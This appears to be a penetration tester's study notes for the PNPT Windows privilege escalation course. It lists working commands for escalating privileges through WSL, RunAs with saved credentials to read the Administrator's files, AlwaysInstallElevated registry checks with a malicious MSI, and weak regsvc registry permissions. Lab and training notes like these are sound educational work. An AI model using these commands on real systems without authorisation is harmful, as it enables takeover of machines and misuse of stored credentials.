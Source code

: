 # Windows Subsystem for Linux (WSL)
---
[[PNPT/WPE/Windows Subsystem for Linux/Privilege Escalation|Privilege Escalation]]
- SQL Injection found on Signup Page
- ==`where /R c:\windows wsl.exe`==
- ==`where /R c:\windows bash.exe`==
- `c:\Windows\System32\wsl.exe whoami`
- `c:\Windows\System32\bash.exe`
- `python -c "import pty;pty.spawn('/bin/bash')"`

# ==**Token Impersonation==**
---
[[Token Impersonation Lab]]
[[Potato Attacks Overview]]
[[THM - Tater, Hot Potato]]
[[Administrator Group To SYSTEM]]
**[[Alternate Data Streams]]**

# **==GetSystem==**
----
[[GetSystem]] - SeDebug

# ==**RunAs==** - Similar to sudoers entry
---
[[PNPT/WPE/RunAs/Privilege Escalation|Privilege Escalation]]
- `cmdkey /list`
	- Stored Credentials of `ACCESS\Administrator`
- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`
- We **can also** run copy to **copy the file** instead of TYPE
- ==**Search for all the ways to use RunAs**==


# ==Registries==
---
- **Autoruns**
	- [[PNPT/WPE/Autorun/Introduction|Introduction]], [[PNPT/WPE/Autorun/Exploitation|Exploitation]]
	- `Invoke-AllChecks`in PowerUp to detect
- **AlwaysInstallElevated**
	- [[PNPT/WPE/Always Install Elevated/Overview|Overview]], [[PNPT/WPE/Always Install Elevated/Exploitation|Exploitation]]
	- `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
	- `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
		- Should be `0x1`=> **1 means enabled**
	- Download` malicious.msi` file and run it
	- OR `Invoke-AllChecks`
		- `Write-UserAddMSI`
	- OR `exploit/windows/local/always_install_elevated`
- **regsvc ACL** -> Control **over Registries**
	- [[PNPT/WPE/regsvc ACL/Overview|Overview]], [[PNPT/WPE/regsvc ACL/Exploitation|Exploitation]]
	- `powershell.exe -ep bypass`
	- `Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\regsvc" | fl`
		- Look for `NT/INTERACTIVE Allow FullControl`
	- **==We MUST have `NT AUTHORITY/INTERACTIVE` in `whoami /all or a group that has control over over this Registry Service`==** 
	- Upload malicious `x.exe`